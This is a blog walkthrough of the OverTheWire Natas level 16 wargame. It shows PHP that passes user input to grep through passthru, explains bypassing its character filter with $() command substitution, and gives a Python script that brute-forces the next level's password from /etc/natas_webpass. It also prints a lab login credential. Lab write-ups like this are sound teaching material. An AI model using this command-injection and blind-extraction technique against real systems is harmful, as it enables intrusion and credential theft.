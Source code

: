 ```yaml
---
title: "Overthewire Natas 16 Walkthrough"
layout: post
date: 2018-01-24 22:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 16
---
```


## Challenge

![Markdown Image](/assets/images/natas_16_solution/challenge_page.png)

{% highlight php %}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
{% endhighlight %}


The goal of this level is that we need to bypass the regex filter in order to be able to read the flag in /etc/natas_webpass/natas17. 

## Solution

Reading the source code of the page we can find out that that there is a regex filterzation, and we have to not to use any of the characters in the preg_match() function, so we go the passthru() function to inject and execute a custom command since we have control over the variable $key.

We can use $() in order to inject our commands to the passthru() function, since none of the characters of $() exists in preg_match() filter.

so the final command after injection will look like the following:
{% highlight shell %}
grep -i $(grep /etc/natas_webpass/natas17) dictionary.txt
{% endhighlight %}

We can mimic the same scienario in our local termianl, so we have a better understanding of the situation and how we are gonna solve this challenge. 

Mimicing the challenge, I am going to make some files

flag.txt content
{% highlight raw %}
dGhpc2lzYXRlc3Rtb3RoZXJmdWNrZXJ5b29tYW1hYWFuCg==
{% endhighlight %}

So if we use the following command
{% highlight shell %}
grep -i $(grep ^d /tmp/flag.txt) /etc/passwd
{% endhighlight %}

As we can see the string in flag.txt starts with a 'd', so if we use '^' in order to know the characters in order in the flag file. Starting out with 'd' since flag starts with 'd', the commands will return no result; however, if we choose a character other than 'd' the terminal will hang with result return. This way we will be able to figure out the flag content for this challenge, so we can go to the next level.

Here is the complete solution code for this level.


{% highlight python %}
#!/usr/bin/python
#h15h4m

# way better than the other libs
import requests
from requests.auth import HTTPBasicAuth


chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
string_to_find = "Output:\n<pre>\n</pre>"

target = "http://natas16.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password_chars = ''
password = ''

r = requests.get(target , auth=http_login)

if r.status_code != requests.codes.ok:
	print "[-] Unable to access. Check Authentication."
	exit()

print "[!] cool. We are in!"

print "[!] finding password chars...."

#lets find password chars first easier for brute force later
for x in chars_to_check:
	r = requests.get(target + "?needle=$(grep "+ x +" /etc/natas_webpass/natas17)",auth=http_login )	
	if r.content.find(string_to_find) != -1:
		password_chars = password_chars + x
		
print '[+] password chars: '  +   password_chars

print '[!] brut3 f0rc1ng the p455w0rd......'
for x in range(32):
	for xx in password_chars:
		r = requests.get(target + "?needle=$(grep ^"+ password + xx +" /etc/natas_webpass/natas17)",auth=http_login )
		if r.content.find(string_to_find) != -1:
			password += xx
			break
	
print "[+] password: " + password
{% endhighlight %}